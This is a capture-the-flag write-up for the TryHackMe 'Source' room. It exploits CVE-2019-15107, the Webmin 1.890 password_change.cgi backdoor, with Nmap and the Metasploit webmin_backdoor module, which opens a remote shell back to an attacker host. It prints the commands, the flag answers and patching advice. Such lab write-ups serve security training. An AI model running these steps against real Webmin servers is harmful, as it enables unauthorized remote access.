

# Source Write-up

## Source Write-up

> **Scope:** This walkthrough documents activity performed only against the authorized [TryHackMe Source room](http://tryhackme.com/room/source).

### Overview

The Source room exposed Webmin `1.890` on port `10000`. That version matched the affected range for CVE-2019-15107, commonly known as the Webmin `password_change.cgi` backdoor. Identifying the exact version led directly to command-shell access and both flags.

| Item           | Value                          |
| -------------- | ------------------------------ |
| Target         | `10.114.161.203`               |
| SSH            | `22/tcp`                       |
| Webmin         | `10000/tcp`                    |
| Webmin version | `1.890`                        |
| Vulnerability  | CVE-2019-15107                 |
| User flag      | `THM{SUPPLY_CHAIN_COMPROMISE}` |
| Root flag      | `THM{UPDATE_YOUR_INSTALL}`     |

### Tools used

* Nmap
* SearchSploit
* Metasploit Framework

### 1. Enumerate services

I started with a full TCP service and version scan:

```bash
nmap -A 10.114.161.203
```

```
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
```

I then confirmed the Webmin version directly:

```bash
nmap -sV -p 10000 10.114.161.203
```

The notable result was Webmin `1.890` on port `10000`.

### 2. Match the service version to a vulnerability

Searching the local Exploit-DB index returned Webmin-related entries:

```bash
searchsploit Webmin
```

Webmin `1.890` falls within the versions affected by CVE-2019-15107. This issue was a backdoor in Webmin’s `password_change.cgi` component. The recorded lab session used Metasploit’s `exploit/linux/http/webmin_backdoor` module.

### 3. Exploit the Webmin backdoor

In Metasploit, I configured the module for the lab target:

```
msfconsole -q
use exploit/linux/http/webmin_backdoor
set RHOSTS 10.114.161.203
set RPORT 10000
set LHOST 192.168.131.151
set SSL true
set AutoCheck false
```

I verified the target before running the module:

```
check
```

The check identified Webmin `1.890` as vulnerable. Running the exploit opened a command-shell session:

```
exploit
```

```
Command shell session 1 opened
```

Although Nmap described the service as HTTP, the Metasploit module required `SSL true` for both the check and exploit to succeed in this lab.

`SSLCert` was left unset. It expects a certificate file path, so values such as `yes` or `false` cause validation errors.

### 4. Retrieve the flags

The shell began in Webmin’s installation directory:

```bash
pwd
```

```
/usr/share/webmin
```

The root flag was directly readable:

```bash
cat /root/root.txt
```

```
THM{UPDATE_YOUR_INSTALL}
```

The user flag belonged to the `dark` account:

```bash
cat /home/dark/user.txt
```

```
THM{SUPPLY_CHAIN_COMPROMISE}
```

### Attack chain



### Security lessons

1. **Patch exposed management services quickly.** Webmin should be updated beyond affected versions or removed from internet-facing access.
2. **Restrict administrative interfaces.** Limit access to trusted networks and authenticated administrators.
3. **Monitor supply-chain advisories.** CVE-2019-15107 resulted from a maliciously inserted backdoor, not a conventional coding defect.
4. **Verify services using their real protocol.** Service fingerprinting may label a port generically. Testing TLS settings was necessary for this lab’s exploitation path.
